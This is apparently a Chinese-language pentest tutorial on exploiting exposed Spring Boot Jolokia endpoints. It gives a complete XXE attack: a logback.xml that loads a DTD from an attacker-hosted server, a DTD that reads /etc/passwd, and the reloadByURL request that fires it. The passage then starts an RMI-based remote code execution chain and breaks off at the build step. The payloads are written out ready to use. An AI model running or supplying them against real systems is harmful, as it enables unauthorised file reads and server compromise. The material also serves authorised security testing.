 ![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521215258.png)

## Jolokia漏洞利用

### Jolokia漏洞利用（XXE）

- jolokia/list 

**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521215727.png)

- 创建logback.xml和fileread.dtd文件

**logback.xml**

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://x.x.x.x/fileread.dtd">%remote;%int;]>
<a>&trick;</a>
```

**fileread.dtd**

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```

- 将文件上传到公网VPS上并且开启http服务

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521221754.png)

- 远程访问logback.xml文件

**127.0.0.1:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/x.x.x.x!/logback.xml**

- 成功利用xxe读取到etc/passwd文件内容

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521221839.png)

### Jolokia漏洞利用（RCE）

- 下载修改RMI服务代码

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521223234.png)

- 编译打包

```
mvn clean install
```

*打包成功后创建target目录下生成RMIServer-0.1.0.jar文件*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521225708.png)
